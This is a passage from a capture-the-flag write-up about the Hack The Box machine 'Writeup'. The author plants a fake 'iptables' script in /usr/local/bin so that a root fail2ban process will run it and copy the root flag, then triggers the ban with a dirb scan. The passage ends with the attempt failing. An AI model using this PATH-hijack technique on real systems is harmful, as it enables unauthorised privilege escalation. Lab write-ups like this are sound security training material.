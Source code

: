 ```console
2019/10/01 21:35:44 CMD: UID=0    PID=3636   | /bin/sh -c iptables -w -n -L INPUT | grep -q 'f2b-apache-404[ \t]' 
2019/10/01 21:35:44 CMD: UID=0    PID=3638   | /usr/bin/python3 /usr/bin/fail2ban-server -s /var/run/fail2ban/fail2ban.sock -p /var/run/fail2ban/fail2ban.pid -b 
2019/10/01 21:35:44 CMD: UID=0    PID=3639   | iptables -w -I f2b-apache-404 1 -s 10.10.14.75 -j REJECT --reject-with icmp-port-unreachable 
```
I want to create "iptables" and put it in my /usr/local/bin/ directory which when 3639 runs will spit out the root flag to a readable directory for me:

```console
create "iptables":
#!/bin/bash
cat /root/root.txt > /home/jkr/root.txt

jkr@writeup:~/tmp$ chmod +x iptables 
jkr@writeup:~/tmp$ cp iptables /usr/local/bin/
```
Lets trigger the eeyore ban script:

```console
root@endeavour:~/htb/writeup# dirb http://10.10.10.138/ /usr/share/dirb/wordlists/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Oct  1 21:56:48 2019
URL_BASE: http://10.10.10.138/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.138/ ----
                                                                                                           
(!) FATAL: Too many errors connecting to host
    (Possible cause: COULDNT CONNECT)
                                                                               
-----------------
END_TIME: Tue Oct  1 21:56:56 2019
DOWNLOADED: 13 - FOUND: 0
```
Now that we are banned, but its our iptables, we should have the flag:

```console

jkr@writeup:~$ pwd
/home/jkr
jkr@writeup:~$ ls
tmp  user.txt
```
Didn’t work. What the hell. Typically, I assume that I did something wrong and give it a few more attempts before quitting. This time I was also pretty interested in that root/bin/cleanup/cleanup.pl script.
